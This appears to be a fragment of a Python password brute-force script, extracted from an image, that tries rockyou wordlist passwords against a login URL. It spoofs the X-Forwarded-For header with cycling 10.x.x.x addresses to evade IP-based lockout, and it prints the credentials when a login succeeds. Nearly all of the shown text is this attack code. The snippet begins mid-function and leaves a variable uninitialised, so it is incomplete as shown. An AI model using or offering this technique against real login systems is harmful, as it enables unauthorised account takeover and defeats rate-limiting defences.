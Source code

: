 ```
    IP1 = 1
    IP2 = 0 
    for password in passwords:
        password = password.strip()
        print("Trying:" + password)
        if IP1 >= 255:
            IP0 += 1
            IP1 = 0
            IP2 = 0
        if IP2 >= 255:
            IP1 += 1
            IP2 = 0
        
        IP = '10.' + str(IP0) + '.' + str(IP1) + '.' + str(IP2)
        print("Headers:" + IP)
        headers = {'X-Forwarded-For': IP}
        #print("headers:" + headers)
        data_dict = {"username": username, "password": password}
        print(data_dict)
        response = requests.post(url, headers=headers, data=data_dict)
        if error in str(response.content):
            IP2 += 1
            print("Error, IP2:" + str(IP2))
            pass
        else:
            print("Username: ---> " + username)
            print("Password: ---> " + password)
            exit()

with open("/usr/share/wordlists/rockyou.txt", "r") as passwords:
     bruteCracking(username,url,error)
print("[!!] password not found in password list")

```
